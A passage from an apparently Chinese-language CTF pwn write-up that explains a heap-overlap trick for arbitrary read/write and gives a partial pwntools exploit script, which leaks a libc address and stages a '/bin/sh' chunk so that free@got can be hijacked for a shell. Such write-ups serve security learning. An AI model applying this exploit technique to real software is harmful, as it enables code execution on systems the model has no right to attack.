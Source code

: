 true_p6 = ord_c4，此时，修改c4就可以修改true_p6，然后也就实现了任意地址读写

```python
add(0x10 * "a" + "\n") # 4
add(0x10 * "a" + "\n") # 5
add(0x10 * "a" + "\n") # 6
free(5)
free(6)

add(0x20 * "a" + "\n") # 5

add(0x10 * "c" + "\n") # 6
```

由于atoi只能输入5位，考虑劫持别的got。所以最后选择覆盖free@got，然后布置/bin/sh\x00在chunk上即可。

#### 完整exp

```python
from pwn import *
from time import sleep
# from LibcSearcher import *
context.log_level = "debug"

elf = ELF("./pwn")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process("./pwn")

def add(content):
    p.recvuntil("> ")
    p.sendline("1")
    p.recvuntil("data:\n")
    p.send(content)

def show(index):
    p.recvuntil("> ")
    p.sendline("2")
    p.recvuntil("index: ")
    p.sendline(str(index))

def change(index, content):
    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("index: ")
    p.sendline(str(index))
    sleep(0.1)
    p.send(content)

def free(index):
    p.recvuntil("> ")
    p.sendline("4")
    p.recvuntil("index: ")
    p.sendline(str(index))

# leak libc

add(0x80 * "a" + "\n") # 0
add(0x80 * "a" + "\n") # 1
add("/bin/sh\x00" + "\n") # 2

free(0) # head is 1
show(1)

addr = u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
libc.address = addr - 0x3c4b78
main_arena = addr - 88
```